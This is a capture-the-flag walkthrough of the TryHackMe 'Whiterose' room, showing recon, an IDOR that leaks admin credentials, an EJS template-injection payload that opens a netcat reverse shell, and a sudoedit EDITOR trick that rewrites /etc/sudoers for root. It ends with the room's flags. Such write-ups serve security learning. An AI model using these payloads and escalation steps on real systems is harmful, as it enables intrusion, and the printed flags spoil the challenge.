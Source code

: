 ```yaml
---
Title: CTF Walkthrough 2
categories: [CTF, CTF_walkthrough]
tags: [CTF]
---
```

"<span style="color:yellow">*Always update your dependencies and your packages*</span>."


![cover](/pictures/SWS_pictures/write_up/whiterose/cover.png)

### Room Information
Room Name: Whiterose

Difficulty Level: Easy

Room type: Challenges(CTF)

![cover](/pictures/SWS_pictures/write_up/whiterose/machine.png)

### Reconnaissance
It is given that later we will need this: Olivia Cortez:olivi8

![cover](/pictures/SWS_pictures/write_up/whiterose/info.png)

Let’s run nmap and check what ports are open.

![cover](/pictures/SWS_pictures/write_up/whiterose/nmap.png)

I discovered 2 open ports: 22 and 80,. Since port 80 is open, let’s check the website.

![cover](/pictures/SWS_pictures/write_up/whiterose/website1.png)

When visiting the web servers, we are redirected to cyprusbank.thm. So we will add this to our /etc/hosts and reload the page.
Command: sudo nano /etc/hosts

![cover](/pictures/SWS_pictures/write_up/whiterose/nano.png)

Then reload the page.

![cover](/pictures/SWS_pictures/write_up/whiterose/website2.png)

When I reload the page it shows that the site is under maintenance.
 
So let’s check for any other hidden directories using dirsearch.

![cover](/pictures/SWS_pictures/write_up/whiterose/dirsearch.png)

There are no other hidden directories. Let’s enumerate subdomains using ffuf.

![cover](/pictures/SWS_pictures/write_up/whiterose/ffuf1.png)

![cover](/pictures/SWS_pictures/write_up/whiterose/ffuf2.png)

There are two subdomains (www and admin). Now let’s visit the website using those two subdomains. For that, I need to add in /etc/hosts.

![cover](/pictures/SWS_pictures/write_up/whiterose/domain.png)

Now reload the website with a subdomain in it. 
With the subdomain www, it takes to the landing page.

![cover](/pictures/SWS_pictures/write_up/whiterose/www.png)

With the subdomain admin, it redirects us to a login page. 

![cover](/pictures/SWS_pictures/write_up/whiterose/admin.png)

Credentials for this login are obtained from the room description. 
Name: Olivia Cortez
Password: olivi8

![cover](/pictures/SWS_pictures/write_up/whiterose/bank.png)
 
Once logged in, I knew that the user only had limited access as he couldn’t see the phone number.

![cover](/pictures/SWS_pictures/write_up/whiterose/setting.png)

But we can take a look at the message. There is the chat history.

![cover](/pictures/SWS_pictures/write_up/whiterose/message.png)

Url looks like this: http://admin.cyprusbank.thm/messages/?c=5
So let’s change the parameter value and read all other messages.

![cover](/pictures/SWS_pictures/write_up/whiterose/history.png)

When I changed the parameter value to 0, I got the admin credential.
- Name: Gayle Bev
- Password: p~]P@5!6;rs558:q

Now I will logout from the current user and then log in again using the above credential.

![cover](/pictures/SWS_pictures/write_up/whiterose/phone.png)

![cover](/pictures/SWS_pictures/write_up/whiterose/adminsetting.png)

Wow, now I can see the phone number and also the setting. So it answers the first question.

What's Tyrell Wellick's phone number?

Ans: 842-029-5701

### Now Let’s get to the User. 

Gayle can change users’ passwords, but there wasn’t anything useful there. 

![cover](/pictures/SWS_pictures/write_up/whiterose/change.png)

I fired up Burp Suite to intercept the request. 

![cover](/pictures/SWS_pictures/write_up/whiterose/burp.png)

Then I send it to the repeater.

![cover](/pictures/SWS_pictures/write_up/whiterose/repeater.png)

If we intercept a request and change it by omitting parameters such as the password, an error message appears.

![cover](/pictures/SWS_pictures/write_up/whiterose/error.png)

This tells us that ejs files are included. When i search for ejs ssti payloads, i got this;

![cover](/pictures/SWS_pictures/write_up/whiterose/payload.png)

It is a blog post, from this article I got an payload; 

![cover](/pictures/SWS_pictures/write_up/whiterose/got.png)

#### payload

&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 127.0.0.1 1337 -e sh');s


We need to append this after the password in the burp suite. Note that you need to change IP and port according to yours.

![cover](/pictures/SWS_pictures/write_up/whiterose/append.png)

In the terminal, we need to listen to that port.

![cover](/pictures/SWS_pictures/write_up/whiterose/port.png)

Once we receive the connection we need to run this command: python3 -c 'import pty; pty.spawn("/bin/bash")'

![cover](/pictures/SWS_pictures/write_up/whiterose/user.png)

Finally, boom…..we got the user flag. 

### Privilege Escalation
The next task is to get the root.txt flag. It isn’t as easy as I thought. I can’t get into root just with the command sudo su as I don’t not the password of the web.

![cover](/pictures/SWS_pictures/write_up/whiterose/su.png)

I need to check for sudo privileges.
Command: sudo -l

![cover](/pictures/SWS_pictures/write_up/whiterose/-l.png)

User web can run;
 (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm. 

Let’s do what user web is allowed to do. Select the editor by using the following command:

export EDITOR="vim -- /etc/sudoers"

Then next run this command:  sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
Add the following line under user privilege specification and save.

web ALL=(ALL:ALL) NOPASSWD: ALL

Press i before typing the above command. You need  press enter. Then press escape and then :wq enter again :wq enter. In this way we save it.

![cover](/pictures/SWS_pictures/write_up/whiterose/privi.png)

After that, we can now run sudo su command and get into the root.

![cover](/pictures/SWS_pictures/write_up/whiterose/root.png)

Now I got thaveroot access. Finally, I also got the root.txt


### Flag Captured
- user.txt flag: THM{4lways_upd4te_uR_d3p3nd3nc!3s}

- root.txt flag:  THM{4nd_uR_p4ck4g3s}
